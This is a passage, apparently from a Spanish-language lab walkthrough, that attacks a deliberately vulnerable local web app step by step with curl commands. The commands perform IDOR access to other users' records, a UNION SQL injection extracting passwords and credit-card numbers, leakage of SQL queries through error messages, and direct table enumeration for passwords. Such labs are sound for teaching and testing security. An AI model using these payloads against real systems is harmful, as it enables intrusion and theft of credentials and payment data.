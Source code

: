 #### **Paso 1: Acceso a Usuario Propio**
```bash
curl "http://localhost:3000/api/users/1"
```

#### **Paso 2: Acceso a Otros Usuarios**
```bash
curl "http://localhost:3000/api/users/2"
curl "http://localhost:3000/api/users/3"
```

#### **Paso 3: SQL Injection en ID**
```bash
curl "http://localhost:3000/api/users/1'%20UNION%20SELECT%20username,password,credit_card,email,role,phone,id%20FROM%20users--"
```

### 5. **Information Disclosure**

#### **Paso 1: Exponer Datos Sensibles**
```bash
curl "http://localhost:3000/api/users"
```

**Resultado:** Se exponen contraseñas, tarjetas de crédito, emails

#### **Paso 2: Exponer Queries SQL**
```bash
curl -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "invalid",
    "password": "invalid"
  }'
```

**Resultado:** Se expone la query SQL en el error

### 6. **Acceso Directo a Base de Datos**

#### **Paso 1: Enumerar Tablas**
```bash
curl "http://localhost:3000/api/search/advanced?table=sqlite_master"
```

#### **Paso 2: Acceso Directo a Usuarios**
```bash
curl "http://localhost:3000/api/search/advanced?table=users&column=username"
```

#### **Paso 3: Extraer Contraseñas**
```bash
curl "http://localhost:3000/api/search/advanced?table=users&column=password"
```
